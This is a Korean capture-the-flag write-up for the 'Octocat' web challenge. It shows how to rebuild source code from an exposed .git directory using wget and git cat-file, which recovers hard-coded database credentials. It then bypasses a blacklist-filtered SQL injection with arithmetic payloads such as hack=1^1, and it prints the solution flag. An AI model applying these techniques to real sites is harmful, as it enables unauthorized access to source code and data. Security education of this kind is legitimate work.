


# Octocat

**Description:**
> 코딩, 마크다운 작성 등 다재다능한 문어발 고양이  
> ^ↀᴥↀ^

## Write-up
  
메인 페이지에 접근해보면 MarkDown 문법 몇 가지가 소개되어 있고 별다른 기능을 볼 수 없습니다.  
다른 기능이나 페이지를 더 알아보기 위해서 robots.txt 파일에 접근하여 확인해보면 다음과 같이 /admin 디렉터리가 Disallow 되어 있는 것을 볼 수 있습니다.

robots.txt:  
```
User-agent: *
Disallow: /admin
```

/admin 디렉터리에 접근을 해보면 메인 페이지와 마찬가지로 별다른 정보를 얻을 수 없습니다.  


메인 페이지의 제목인 Octocat과 MarkDown 문법들을 연관지어서 생각해보면 Github와 관련된 정보임을 알 수 있습니다.  
해당 서버는 개발자가 서버에서 Git을 사용하는 것으로 추측하고 Git을 사용하면서 발생할 수 있는 문제들을 생각하다보면 .git 디렉터리에 대해 알 수 있습니다.

.git 디렉터리는 로컬에서 Git 저장소를 사용하면서 발생하는 정보들을 기록하고 저장하는 공간입니다.  
일반적으로는 리모트 서버에 데이터를 push할 경우 해당 디렉터리는 포함되지 않은 상태로 전송되지만, 현재 로컬 저장소가 웹 서버 내에 있어서 .git 디렉터리에도 접근할 수가 있습니다.

/.git/  
```
Forbidden
You don't have permission to access /.git/ on this server.
```

디렉터리 리스팅이 되지 않아 폴더 내 정보를 알기가 어렵지만 아래의 파일을 통해 시작점을 찾을 수 있습니다.  
/.git/logs/HEAD  
/.git/logs/refs/heads/master  
```
0000000000000000000000000000000000000000 4dd07c84eb0806550ce82d9dd9517ae6f04bfaed do9dark <do9dark@gmail.com> 1506527313 +0900	commit (initial): Create Octocat
4dd07c84eb0806550ce82d9dd9517ae6f04bfaed f731b14ffc633e70888bf639c320464dd2c71920 do9dark <do9dark@gmail.com> 1506527416 +0900	commit: Create robots
f731b14ffc633e70888bf639c320464dd2c71920 377c0f08d7f0317b18df6d9e8bd956f7940831d9 do9dark <do9dark@gmail.com> 1506527919 +0900	commit: Create admin
```

commit 이력을 보면 마지막에 Create admin 되어 있는 부분을 볼 수 있습니다.  
그리고 해당 커밋의 정보는 앞에 해시 값을 분석하여 확인할 수 있습니다.

377c0f08d7f0317b18df6d9e8bd956f7940831d9  
37 | 7c0f08d7f0317b18df6d9e8bd956f7940831d9  
앞의 2자리는 디렉터리명이 되고 나머지 값은 파일명이 됩니다.  
그리고 해당 파일은 아래와 같이 저장되어 있습니다.  
/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9

해당 파일의 정보를 확인하기 위해서 빈 디렉터리를 만든 다음 git init 명령어를 입력하여 임의의 Git 저장소를 만듭니다.  
```
# git init
Initialized empty Git repository in /Octocat/.git/
```

그리고 7c0f08d7f0317b18df6d9e8bd956f7940831d9 파일을 다운로드 받아서 .git/objects/ 디렉터리에 동일한 형태로 추가합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/37/7c0f08d7f0317b18df6d9e8bd956f7940831d9
# mkdir .git/objects/37/
# mv 7c0f08d7f0317b18df6d9e8bd956f7940831d9 .git/objects/37/
```

다운받은 파일의 정보를 git cat-file 명령어를 통해 확인할 수 있습니다.  
```
# git cat-file -p 377c0f08d7f0317b18df6d9e8bd956f7940831d9
tree 6380e82b43310c73c3fef2236b989c9b1cad4ab6
parent f731b14ffc633e70888bf639c320464dd2c71920
author do9dark <do9dark@gmail.com> 1506527919 +0900
committer do9dark <do9dark@gmail.com> 1506527919 +0900

Create admin
```

확인한 정보에서 tree의 값을 동일한 방법으로 다시 다운로드 받아서 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/63/80e82b43310c73c3fef2236b989c9b1cad4ab6
# mkdir .git/objects/63/
# mv 80e82b43310c73c3fef2236b989c9b1cad4ab6 .git/objects/63/
# git cat-file -p 6380e82b43310c73c3fef2236b989c9b1cad4ab6
040000 tree ca2bff0667f07de553c49ffcae1ced0ff088b690	admin
040000 tree b238a9eb78dfaeaadde90073d9c31e726eaa448c	images
100644 blob 34293c323587dcc7876d877a9c9aa924d515db5c	index.php
100644 blob f8a0a9baa76ce27b98b42075bee53eada22b962d	robots.txt
```

중요 정보가 있을 것으로 생각되는 admin의 정보를 얻기 위해 다시 tree의 값을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/ca/2bff0667f07de553c49ffcae1ced0ff088b690
# mkdir .git/objects/ca/
# mv 2bff0667f07de553c49ffcae1ced0ff088b690 .git/objects/ca/
# git cat-file -p ca2bff0667f07de553c49ffcae1ced0ff088b690
100644 blob 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89	config.php
100644 blob f8becac1dc52e23d7844a9162b19968e8a1bc356	index.php
```

config.php 파일의 내용을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/9c/7aba35acd0b11b75139d8a8bc82dc6f3efad89
# mkdir .git/objects/9c/
# mv 7aba35acd0b11b75139d8a8bc82dc6f3efad89 .git/objects/9c/
# git cat-file -p 9c7aba35acd0b11b75139d8a8bc82dc6f3efad89
<?php
	mysql_connect("localhost", "root", "toor");
	mysql_select_db("CTF");
	# Temp Flag...
	$flag = md5("None");
?>
```

Flag 값이 있으나 임시 값으로 현재 서버 값과는 다르기 때문에 인증할 수 없는 값입니다.  
미궁의 /admin/index.php 파일의 내용을 확인합니다.  
```
# wget https://do9.kr/Octocat/.git/objects/f8/becac1dc52e23d7844a9162b19968e8a1bc356
# mkdir .git/objects/f8/
# mv becac1dc52e23d7844a9162b19968e8a1bc356 .git/objects/f8/
# git cat-file -p f8becac1dc52e23d7844a9162b19968e8a1bc356
<!DOCTYPE html>
<html>
<head>
	<title>ADMIN</title>
	<style type="text/css">
		body {
			background-color: #FFFFFF;
			background-image: url("../images/admin.gif");
			text-align: center;
			vertical-align: middle;
		}
	</style>
</head>
<body>
	<?php
		error_reporting(0);
		include("config.php");
		
		if(isset($_GET['hack'])) {
			if(preg_match("/_|\.|0|9|=|\"|\'|\`|#|-|@|\(|\)|[a-z]/", $_GET['hack'])) exit("<h1>No Hack</h1>");
			
			$query = mysql_query("SELECT * FROM user WHERE no=$_GET[hack]") or die("<h1>No Hack</h1>");
			$data = mysql_fetch_array($query);

			# mysql> select * from CTF.user;
			# +-------+-------+
			# | no    | name  |
			# +-------+-------+
			# | 31337 | guest |
			# | pwned | admin |
			# +-------+-------+
			# 2 rows in set (0.00 sec)

			if($data[1] == "guest") echo("<h1>Access Denied</h1>");
			else if($data[1] == "admin") echo("<h1>Flag is TDCTF{{$flag}}</h1>");
			else echo("");
		}
	?>
</body>
</html>
```

/admin/index.php 파일을 보면 GET 파라미터를 통해 hack 값을 입력 받아서 $data[1] 값이 admin이 되도록 조건을 맞춰주면 Flag를 획득할 수 있습니다.

하지만 hack 값에는 숫자 0, 9와 문자, 몇 가지 기호들을 입력할 경우 종료되도록 되어있고 admin이 되도록 조건을 맞춰주기 위해서는 no=pwned가 되어야 하기 때문에 일반적인 방법으로는 조건을 만족하게 할 수가 없습니다.

31337를 입력하면 Access Denied가 표시되고, 존재하지 않는 정보를 입력하면 아래와 같은 이미지가 표시됩니다.  


이 부분은 입력한 값이 0이 되도록 수식을 이용하여 우회할 수 있습니다.  
/admin/?hack=1^1  
/admin/?hack=1%1  
...  
위와 같이 수식의 결과 값이 0이 되도록 만들어주면 조건문 no의 저장된 데이터 중에서 문자열로 시작하는 정보만 출력이 되어 pwned의 값을 가진 admin이 $data[1]에 저장되어 Flag를 획득할 수 있습니다.  


## Flag
TDCTF{f914ccb5c1bb4a0cdff05d4ee69896f0}
